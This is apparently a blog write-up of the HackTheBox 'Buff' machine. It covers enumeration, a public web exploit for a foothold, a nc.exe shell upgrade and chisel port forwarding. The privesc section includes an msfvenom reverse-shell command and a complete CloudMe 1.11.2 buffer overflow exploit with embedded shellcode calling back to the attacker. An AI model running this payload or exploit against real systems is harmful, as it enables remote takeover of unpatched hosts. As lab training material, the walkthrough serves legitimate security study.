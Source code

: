 ```yaml
---
title: HackTheBox - Buff
date: 2021-10-18 00:49:17 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [0x3n0, Gym Management System, searchsploit, nc.exe, port forwarding, chisel, buffer overflow, pwn, msfvenom, shellcode, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/buff/Buff.jpeg
---
```


Buff is a very nice OSCP style box, where I have to identify the web software running on the site, and exploit it using public exploits to get execution via webshell. For privesc, I'll find another service I can exploit using public exploits. I'm going to build with my own shell code to create my own shell, and set up the service so that I can connect just by listening on localhost. From there, the exploit script returns an administrator's shell. In Beyond Root, I'll go through the first script and do the exploit manually, and see how Defender blocks some of my attempts

## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Buff-full-port-scan.txt 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Port 8080 (HTTP)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/8080.png)

Visiting port 8080 shows us a web page about fitness.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/contact.png)

The `/contact.php` page discloses that Gym Management Software is being used.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/searchsploit.png)

Using `searchsploit` we identified a potential exploit.

## Foothold

The exploit mimics a shell and allows us to send remote command.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/exploit.png)

We can upgrade our shell to a more stable shell by uploading `nc.exe` and executing it:

```bash
$ locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe
$ cp /usr/share/windows-resources/binaries/nc.exe .
```

![Desktop View](/assets/img/htb/machines/windows/easy/buff/more_stable_shell.png)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/nc.png)

## Privesc

Using `winPEAS` we can see that there is an app called `CloudMe` which is running on local port **8888** but is not running on remote port.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloudme_tcp.png)

Plus, if we look at `C:\Users\shaun\Downloads\`, we can find a binary file called `CloudMe_1112.exe`:

```powershell
PS C:\Users\shaun\Downloads> dir
dir


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```

In order to transfer it to our local machine, we can take advantage of the current web server:

```cmd
C:\Users\shaun\Downloads>copy CloudMe_1112.exe C:\xampp\htdocs\gym\                                                                                 
copy CloudMe_1112.exe C:\xampp\htdocs\gym\
        1 file(s) copied.
```

> **Note**: following [**Stack-Based Buffer Overflows on Windows x86** course on Academy](https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86) will guide you on writing an exploit for this program.

### Port forwarding with `chisel`

`CloudMe` is listening only on localhost.

If we want to make this port available to our machine, we can use a **SOCKS proxy** such as `Chisel`. Go to the [release page](https://github.com/jpillora/chisel/releases) and download the last executables for windows and linux amd64.

- First, on our Kali machine, we have to set up the Chisel server, listening on any port (here 9999):

    ```bash
    $ /chisel_1.7.6_linux_amd64 server -p 9999 --reverse
    2021/09/07 00:09:35 server: Reverse tunnelling enabled
    2021/09/07 00:09:35 server: Fingerprint EFwUZIpNMK9gCrrI3aubBlSlDShKhEzk0ophq0C08S4=
    2021/09/07 00:09:35 server: Listening on http://0.0.0.0:9999
    ```

- Then, on the target machine, tunel the port 8888 to our machine:

    ```cmd
    C:\>.\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    .\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    2021/09/06 23:17:24 client: Connecting to ws://10.10.14.12:9999
    2021/09/06 23:17:26 client: Connected (Latency 188.0315ms)
    ```

### Exploitation

Looking for `CloudMe` with `searchsploit`, we can find multiple exploits:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloud_me_exploits.png)

The first one will worked just fine but we have to replace the shellcode. `msfvenom` can help us to do that:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
```

Then we can edit the exploit source file as follows:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
payload =  b""
payload += b"\xb8\x45\x01\x16\x38\xd9\xed\xd9\x74\x24\xf4\x5f"
payload += b"\x33\xc9\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\x02"
payload += b"\x0f\xf4\xcd\x70\xe7\x7a\x2d\x88\xf8\x1a\xa7\x6d"
payload += b"\xc9\x1a\xd3\xe6\x7a\xab\x97\xaa\x76\x40\xf5\x5e"
payload += b"\x0c\x24\xd2\x51\xa5\x83\x04\x5c\x36\xbf\x75\xff"
payload += b"\xb4\xc2\xa9\xdf\x85\x0c\xbc\x1e\xc1\x71\x4d\x72"
payload += b"\x9a\xfe\xe0\x62\xaf\x4b\x39\x09\xe3\x5a\x39\xee"
payload += b"\xb4\x5d\x68\xa1\xcf\x07\xaa\x40\x03\x3c\xe3\x5a"
payload += b"\x40\x79\xbd\xd1\xb2\xf5\x3c\x33\x8b\xf6\x93\x7a"
payload += b"\x23\x05\xed\xbb\x84\xf6\x98\xb5\xf6\x8b\x9a\x02"
payload += b"\x84\x57\x2e\x90\x2e\x13\x88\x7c\xce\xf0\x4f\xf7"
payload += b"\xdc\xbd\x04\x5f\xc1\x40\xc8\xd4\xfd\xc9\xef\x3a"
payload += b"\x74\x89\xcb\x9e\xdc\x49\x75\x87\xb8\x3c\x8a\xd7"
payload += b"\x62\xe0\x2e\x9c\x8f\xf5\x42\xff\xc7\x3a\x6f\xff"
payload += b"\x17\x55\xf8\x8c\x25\xfa\x52\x1a\x06\x73\x7d\xdd"
payload += b"\x69\xae\x39\x71\x94\x51\x3a\x58\x53\x05\x6a\xf2"
payload += b"\x72\x26\xe1\x02\x7a\xf3\xa6\x52\xd4\xac\x06\x02"
payload += b"\x94\x1c\xef\x48\x1b\x42\x0f\x73\xf1\xeb\xba\x8e"
payload += b"\x92\x19\x31\x9e\x6e\x76\x47\x9e\x7f\xda\xce\x78"
payload += b"\x15\xf2\x86\xd3\x82\x6b\x83\xaf\x33\x73\x19\xca"
payload += b"\x74\xff\xae\x2b\x3a\x08\xda\x3f\xab\xf8\x91\x1d"
payload += b"\x7a\x06\x0c\x09\xe0\x95\xcb\xc9\x6f\x86\x43\x9e"
payload += b"\x38\x78\x9a\x4a\xd5\x23\x34\x68\x24\xb5\x7f\x28"
payload += b"\xf3\x06\x81\xb1\x76\x32\xa5\xa1\x4e\xbb\xe1\x95"
payload += b"\x1e\xea\xbf\x43\xd9\x44\x0e\x3d\xb3\x3b\xd8\xa9"
payload += b"\x42\x70\xdb\xaf\x4a\x5d\xad\x4f\xfa\x08\xe8\x70"
payload += b"\x33\xdd\xfc\x09\x29\x7d\x02\xc0\xe9\x9d\xe1\xc0"
payload += b"\x07\x36\xbc\x81\xa5\x5b\x3f\x7c\xe9\x65\xbc\x74"
payload += b"\x92\x91\xdc\xfd\x97\xde\x5a\xee\xe5\x4f\x0f\x10"
payload += b"\x59\x6f\x1a"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We forwarded the port 8888 of the target on ou port 8888, now we just have to run the exploit:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/flag.png)

___

## Useful links

- [Chisel](https://github.com/jpillora/chisel)
